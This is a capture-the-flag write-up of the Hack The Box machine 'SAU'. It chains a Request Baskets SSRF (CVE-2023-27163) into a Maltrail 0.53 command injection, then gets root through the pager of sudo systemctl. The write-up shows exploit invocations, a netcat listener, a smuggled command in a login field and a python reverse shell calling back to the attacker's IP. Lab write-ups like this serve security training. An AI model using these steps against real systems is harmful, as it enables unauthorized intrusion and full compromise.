


Today we will resolve SAU.

SAU is a Linux machine with a level of dicultay easy.

This machine was retired couple of days ago and in this case, I  will show you how to take adavantage of a SSRF vulnerabilty in order to get access to some internal resources in the victim's machine that will drive to a OS command injection ........................................................................

We will also see some techniques to escalate privileges using sudo.


## INTRO

* Name: SAU

* S.O: Linux

* IP address: 10.10.11.224

* Difficulty: easy

* Tag: #Web #sudo #SSRF 


## RECON


As usual, we will start with the recon phase , running a TCP SYN  scan on all  TCP open  ports.

In order to go faster, we will run it  in an aggressive way (T5), with a rate of 5000 and We don’t want to resolve the hostname (n)  and don't need host discovery (Pn)

We will show the output via console (v) and we will store the results in nmap format (oN) sau_nmap.output file so we can have a look whenever we want.

```bash
 nmap -p- --open -sS -vvv -n -T5 -Pn -oN sau_nmap.output 10.10.11.224
```
```bash
# Nmap 7.92 scan initiated Fri Dec 22 17:37:00 2023 as: nmap -p- --open -sS -vvv -n -T5 -Pn -oN sau_nmap.output 10.10.11.224
Nmap scan report for 10.10.11.230
Host is up, received user-set (0.12s latency).
Scanned at 2023-12-22 17:37:00 CET for 44s
Not shown: 65498 closed tcp ports (reset), 34 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT        STATE      SERVICE REASON
22/tcp      open       ssh     syn-ack ttl 63
80/tcp      filtered   http
55555/tcp   open       unknown    syn-ack ttl 63
```

It sounds weird, that the port 80 is filtered, but also something running on a uncommon port 55555

## ENUMERATION

So, in order to get more information about those open oports, let’s  run some basic enumeration scripts (sCV)

```bash
nmap -sCV -p22,55555 -oN 10.10.11.224_nmap_servicios 10.10.11.224
```

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 19 Dec 2023 21:35:26 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 19 Dec 2023 21:34:58 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS

```

We see under 55555 port that some web service is running, 

Let’s run whatweb command, curl and then we will visit the web page  to get more info related to  this website, such as frameworks, technologies, e-mails, users,...

```bash
whatweb http://10.10.11.224:55555 > whatweb.output
```

```bash
http://10.10.11.224:55555 [302 Found] Country[RESERVED][ZZ], IP[10.10.11.224], RedirectLocation[/web]
http://10.10.11.224:55555/web [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, IP[10.10.11.224], JQuery[3.2.1], PasswordField, Script, Title[Request Baskets]
```

After web enumeration, Whatweb output shows something interesting that leads to find out the application running under 55555 port, which is  “Request Baskets”




**Request Baskets** is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI.

We can find more information about this application in its  github:
[https://github.com/darklynx/request-baskets](https://github.com/darklynx/request-baskets){:target="_blank"}


Looking for some vulnerability affecting this software on Internet we found out that "Request Baskets" up to  version 1.2.1 is affected by a known **SSRF vulnerability (CVE-2023-27163)**

**you can find further information in this link:**

[https://nvd.nist.gov/vuln/detail/CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163){:target="_blank"}

And we also see that the version running is affected.


## EXPLOITATION


My first thought after enumeration was that probably, we would need to exploit the SSRF vulnerability to access to some internal service running on port 80, that is not accesible.


Before moving on, let me just introduce what a Server-Site Request Forgery vulnerability is

### **Server-side request forgery** 
SSRF is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials.

**Further information:** [https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf){:target="_blank"}

So as we mentioned in the previous section, the **Requests Basquets** version running on the machine is affected by a **SSRF CVE-2023-27163**, so this might help me to reach other internal services running on the machine.

**In order to exploit this vulnerability we will use below exploit:**

[https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163){:target="_blank"}

Just we need to pass as argument the affected URL and the target URL that we want to access to.

The exploit will create a proxy basket that will allow me to access to http://sau.htb:80 local resource running in the server

```bash
└─# ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://sau.htb:80  
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "dvcvja" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/dvcvja now makes the server request to http://sau.htb:80.
> Authorization: Lr7kTk3KuKHieDXC_iqUboa0XjXQDxkK6CFB2f6BEN90

```

So just we can check it with a curl command
```bash
# curl -X GET http://10.10.11.224:55555/dvcvja
Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```
And we observe that in the 80 port is running another application called **Maltrail 0.53**

**What is maltrail**

Maltrail is a malicious traffic detection system

More information: [https://github.com/stamparm/maltrail](https://github.com/stamparm/maltrail){:target="_blank"}


So as usual, let’s start checking  if there is any known vulnerability affecting that software 




and we are lucky, just first result returns an unauthenticated OS command injection.

This vulnerability  could lead to a Remote Command Execution (RCE) on the victim.

**What is a OS command injection**

It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

**More information:** [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection){:target="_blank"}

**So just in order to exploit it we will use this public exploit**

[https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit){:target="_blank"}

The exploit just needs as argument the listening IP address and port and the target URL.

If we have a look at the the exploit we see it creates a reverse shell payload encoded in Base64 and delivers it to the target URL  using a curl command

The target URL is just the basket URL we created previously with the SSRF exploit

```bash
$ python3 exploit.py 10.10.14.192 443 http://10.10.11.224:55555/dvcvja
Running exploit on http://10.10.11.224:55555/dvcvja/login

```

Before runing the exploit, we have to run our listener

```bash
──(root㉿alter)-[/home/alter]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.224] 60032
$ 

```
And here there is the revere shell, now as usual,  let's improve it

```bash
$ script /dev/null -c bash
Ctrl+Z, 

stty raw -echo;fg
reset
xterm

```

```bash
puma@sau:/opt/maltrail$ whoami
puma
puma@sau:/opt/maltrail$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.224  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:d438  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:d438  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:d4:38  txqueuelen 1000  (Ethernet)
        RX packets 517358  bytes 39412852 (39.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 502391  bytes 34726648 (34.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 9166  bytes 537607 (537.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9166  bytes 537607 (537.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

**and just let's get the user flag:**

```bash
puma@sau:~$ cat user.txt
4d7166dbc2bb3e5b9bb68186071acf21

```
## PIVOTING

In this machine is not needed.

## PRIVILEGE ESCALATION

Usually I start with some basic enumeration commands, like sudo -l

**What is sudo command**

The sudo command allows us to run programs with the security privileges of another user (by default, as the superuser).

Click on the link to learn more about it:  [https://kb.iu.edu/d/amyi](https://kb.iu.edu/d/amyi){:target="_blank"}

**We run the sudo -l command** to check what sudo commands are allowed to be invoked by puma.

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$

```

sudo -l output shows  that puma user is able to run this command /usr/bin/systemctl status trail.service 

And systemclt requires root permisions in order to be executed, so it means puma user is able to run systemcl status without the need to provide root's password

Another search on internet, and we find this article:

[https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/){:target="_blank"}

Just we need to run the command with sudo and then break it with !sh, as systemctl is running as root, that will return a root shell

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service 
trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2023-12-21 14:30:30 UTC; 4h 6min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 895 (python3)
      Tasks: 50 (limit: 4662)
     Memory: 74.2M
     CGroup: /system.slice/trail.service
             ├─ 895 /usr/bin/python3 server.py
             ├─1262 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1267 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1270 sh
             ├─1271 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.1>
             ├─1272 /bin/sh
             ├─1310 sudo systemctl status trail.service
             ├─1311 systemctl status trail.service
             ├─1312 pager
             ├─1314 sh -c /bin/bash -c sh
             ├─1315 sh
             ├─1427 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1428 /bin/sh -c logger -p auth.info -t "maltrail[895]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J>
             ├─1431 sh

             ├─1836 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.1>
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

**Finally let's get the root flag**

```bash
# cat /root/root.txt
f1f5b42f2999f015b2047f3b5d28e391
```